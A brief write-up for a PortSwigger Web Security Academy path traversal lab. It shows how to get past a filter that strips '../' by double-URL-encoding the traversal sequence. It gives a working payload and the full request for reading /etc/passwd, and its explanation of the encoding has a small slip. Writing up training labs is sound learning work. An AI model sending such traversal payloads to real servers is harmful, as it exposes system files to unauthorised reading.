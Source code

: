# File path traversal, traversal sequences stripped with superfluous URL-decode
- Name: File path traversal, traversal sequences stripped with superfluous URL-decode
- URL: https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode
- Level: Medium Time: 2 min
- Objective: retrieve the contents of the `/etc/passwd` file.
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. We usually should add `../../../` then `/etc/passwd` but the wep page catch and sanitzie that.
3. So we encode it.. the `.` will be `%252` and the `/` wil be `%252f`.
4. Out paylood will be `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd` and we add it like the next: `/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

